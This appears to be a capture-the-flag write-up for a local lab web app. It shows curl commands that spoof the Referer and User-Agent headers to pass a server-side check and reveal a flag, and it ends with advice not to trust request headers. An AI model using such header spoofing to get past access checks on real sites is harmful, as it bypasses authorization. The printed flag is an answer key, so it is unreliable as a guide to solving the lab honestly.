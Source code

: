 # Custom curl request with evil headers

After inspecting the page: `http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f` several suspicious html comments can be found inside it.

```html
<!--
You must come from : "https://www.nsa.gov/".
-->

<!--
Let's use this browser : "ft_bornToSec". It will help you a lot.
-->
```

The first one suggests that we're coming from a specific url, well then lets just try it.

## Custom curl Referrer header

We will use `curl` to perform our requests, using `curl --header "Header_foo: bar"` we can define custom header key value pairs.
Also we will make a diff on the fly of the default page versus our custom curl.
First the `Referrer` header using `curl --header "Referer: https://www.nsa.gov/" url`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

As we can see the server sent back a different page content `FIRST STEP DONE`
The second suspicious comment is talking about a browser, lets play with the `User-Agent` header.

## Custom curl User-Agent header

Lets take our previous step command and add custom header for the user agent, using `curl --header "User-Agent: browser"`.

```bash
diff <(curl --silent "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f") <(curl --silent --header "Referer: https://www.nsa.gov/" --header "User-Agent: ft_bornToSec" "http://192.168.56.101/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f")
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

There we go ! In the returned page we can find the flag !

## Solution:

As for everything that builds a request, specfic headers can be set manually by an hacker.
To avoid such security issue, the server should not be making high risky assertion depending on the request's header.
